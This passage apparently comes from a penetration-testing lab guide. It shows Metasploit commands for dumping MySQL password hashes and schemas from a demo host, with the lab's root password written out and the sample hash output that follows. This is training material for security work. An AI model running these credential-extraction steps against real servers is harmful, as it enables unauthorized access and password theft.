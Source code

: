 ### 🔐 Example 5: Password Hash Extraction and Analysis
**Scenario**: Extracting user credentials for offline analysis

```bash
# === PHASE 8: HASH EXTRACTION ===
use auxiliary/scanner/mysql/mysql_hashdump
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
```
**Expected Output:**
```
[+] 192.89.45.3:3306 - Saving HashString as Loot: root:*A0E23B565BACCE3E70D223915ABF25542540144
[+] 192.89.45.3:3306 - Saving HashString as Loot: root:*A0E23B565BACCE3E70D223915ABF25542540144
[+] 192.89.45.3:3306 - Saving HashString as Loot: root:*A0E23B565BACCE3E70D223915ABF25542540144
[+] 192.89.45.3:3306 - Saving HashString as Loot: debian-sys-maint:*F4E71A08E02883688230B992EEAC70BC598FA723
[+] 192.89.45.3:3306 - Saving HashString as Loot: filetest:*81F5E21E354D70D8446CDAA731AEBFB6AF209E18
[+] 192.89.45.3:3306 - Saving HashString as Loot: ultra:*827841258900DAA81738418E11B73EB49659BFDD3
[*] 192.89.45.3:3306 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### 🗂️ Example 6: Database Schema Analysis
**Scenario**: Understanding database structure and relationships

```bash
# === PHASE 9: SCHEMA DISCOVERY ===
use auxiliary/scanner/mysql/mysql_schemadump
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
```
**Expected Output:**
```
[*] 192.89.45.3:3306 - Schema stored in: /root/.msf4/loot/20240711085632_default_192.89.45.3_mysql_schema_549347.txt
[+] 192.89.45.3:3306 - MySQL Server Schema
[*] 192.89.45.3:3306 - Host: 192.89.45.3
[*] 192.89.45.3:3306 - Port: 3306
[*] 192.89.45.3:3306 - ====================
[*] 192.89.45.3:3306 - 
[*] 192.89.45.3:3306 - - DBName: information_schema
[*] 192.89.45.3:3306 -   Tables: []
[*] 192.89.45.3:3306 - - DBName: mysql
[*] 192.89.45.3:3306 -   Tables: []
[*] 192.89.45.3:3306 - - DBName: performance_schema
[*] 192.89.45.3:3306 -   Tables: []
[*] 192.89.45.3:3306 - - DBName: upload
[*] 192.89.45.3:3306 -   Tables: []
[*] 192.89.45.3:3306 - - DBName: vendors
[*] 192.89.45.3:3306 -   Tables: []
[*] 192.89.45.3:3306 - - DBName: videos
[*] 192.89.45.3:3306 -   Tables: []
[*] 192.89.45.3:3306 - - DBName: warehouse
[*] 192.89.45.3:3306 -   Tables: []
```
